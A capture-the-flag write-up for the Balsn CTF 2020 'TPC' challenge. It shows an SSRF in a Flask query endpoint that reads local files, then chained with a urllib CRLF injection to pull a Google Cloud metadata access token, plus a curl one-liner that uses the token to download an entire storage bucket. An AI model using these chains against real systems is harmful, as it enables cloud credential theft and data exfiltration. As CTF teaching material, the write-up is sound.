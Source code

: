 ## TPC

by TnMch



By checking the url givng `http://35.194.175.80:8000/` we found a printed text that mentions the entry point for this challenge



sending `file:///etc/passwd` as a **site** argument gives us the content for  `/etc/passwd`

```
view-source:http://35.194.175.80:8000/query?site=file:///etc/passwd
```

<img src="https://user-images.githubusercontent.com/7364615/99298929-c7d13680-284a-11eb-8d4b-23d495400e72.png" alt="etc_passwd" style="zoom: 67%;" />

So its **SSRF** ( Server-side request forgery ), if we send `file:///proc/self/cmdline` we get the command line which include python file name `main-dc1e2f5f7a4f359bb5ce1317a`.py

```
/usr/local/bin/python/usr/local/bin/gunicorn main-dc1e2f5f7a4f359bb5ce1317a:app--bind0.0.0.0:8000--workers5--worker-tmp-dir/dev/shm--worker-classgevent--access-logfile---error-logfile-
```

 And finally read the source code http://35.194.175.80:8000/query?site=file:///opt/workdir/main-dc1e2f5f7a4f359bb5ce1317a.py`

```
import urllib.request

from flask import Flask, request

app = Flask(__name__)


@app.route("/query")
def query():
    site = request.args.get('site')
    text = urllib.request.urlopen(site).read()
    return text


@app.route("/")
def hello_world():
    return "/query?site=[your website]"


if __name__ == "__main__":
    app.run(debug=False, host="0.0.0.0", port=8000)
```



Simple code, if we read more on `urllib` we can find it vulnerable to **CRLF** : https://bugs.python.org/issue35906 (CVE-2019-9947)

And if we check `file:///etc/hosts` we find 

```
169.254.169.254 metadata.google.internal metadata
```

So we can read google cloud metadata using **SSRF** chained with **CRLF** 

```
curl -v 'http://35.194.175.80:8000/query?site=http://metadata.google.internal/computeMetadata/v1/instance/%20HTTP%2F1.1%0D%0AMetadata-Flavor:%20Google%0D%0Alol:%20'
```

As output we have 

```
attributes/
cpu-platform
description
disks/
guest-attributes/
hostname
id
image
legacy-endpoint-access/
licenses/
machine-type
maintenance-event
name
network-interfaces/
preempted
remaining-cpu-time
scheduling/
service-accounts/
tags
virtual-clock/
zone
```



We just next get access token , find out that we have access to storage **devstorage.read_only**

```
{
  "issued_to": "102193360015934362205",
  "audience": "102193360015934362205",
  "scope": "https://www.googleapis.com/auth/trace.append https://www.googleapis.com/auth/monitoring.write https://www.googleapis.com/auth/service.management.readonly https://www.googleapis.com/auth/servicecontrol https://www.googleapis.com/auth/logging.write https://www.googleapis.com/auth/devstorage.read_only",
  "expires_in": 2844,
  "access_type": "online"
}
```

Reading **access_token**

```
curl -s 'http://35.194.175.80:8000/query?site=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token%20HTTP%2F1.1%0D%0AMetadata-Flavor:%20Google%0D%0Alol:%20'
```

And to read all `asia.artifacts.balsn-ctf-2020-tpc.appspot.com` bucket data

We have full cmd to just process all this steps :

```
mkdir out && access_token=$(curl -s 'http://35.194.175.80:8000/query?site=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token%20HTTP%2F1.1%0D%0AMetadata-Flavor:%20Google%0D%0Alol:%20' | jq -r '.access_token') && curl -s 'https://www.googleapis.com/storage/v1/b/asia.artifacts.balsn-ctf-2020-tpc.appspot.com/o?access_token='$access_token | jq -r '.items[].name' | while read obj;do curl -s -X GET -H 'Authorization: Bearer '$access_token https://storage.googleapis.com/asia.artifacts.balsn-ctf-2020-tpc.appspot.com/{$obj} --output out/output_$(echo $obj | cut -d ':' -f 2)  ;done && cd out && for i in $(ls); do mkdir files;tar -xvf $i -C files/ ;done && grep -r "BALSN" files/opt
```

And we just got the flag in the `/opt/workdir` directory

```
BALSN{What_permissions_does_the_service_account_need}
```
